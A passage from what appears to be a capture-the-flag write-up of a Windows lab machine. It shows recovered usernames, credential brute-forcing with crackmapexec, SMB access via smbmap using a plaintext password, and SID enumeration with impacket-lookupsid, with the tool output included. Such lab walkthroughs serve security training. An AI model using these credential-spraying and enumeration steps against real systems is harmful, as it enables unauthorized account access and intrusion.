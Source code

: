 ```
```

*"\\" added before "$" in order to escape them and write the exact value in the file.*

Now we have 3 usernames

```
$ cat users 
rout3r
admin
hazard
```

And by decrypting the three hashes we get three passwords as well.

## Initial Foothold

Now that we can form a couple of credential pairs, we can try to brute-force them with `crackmapexec`.

![crackmapexec](./.images/crackmapexec.png)

With the credential pair that we found, we can try to connect to the machine via SMB.

```
$ smbmap -H 10.129.96.157 -u hazard -p stealth1agent
[+] IP: 10.129.96.157:445	Name: 10.129.96.157                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
```

It looks like user `hazard` has access only to the IPC share. We can try to connect to the machine with `rpcclient` as well. But when we try to run any command we get `NT_STATUS_CONNECTION_DISCONNECTED` error. 

At this point, we have multiple usernames and passwords but only one pair is working out of all of them only for SMB. But there must be some pair of credentials that can be used to connect to the machine via WinRM. So, we need to enumerate other users on the machine. We can do this using the `impact-lookupsid` tool with the one credential pair that works for SMB.

```
$ impacket-lookupsid hazard@10.129.96.157    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.129.96.157
[*] StringBinding ncacn_np:10.129.96.157[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
```
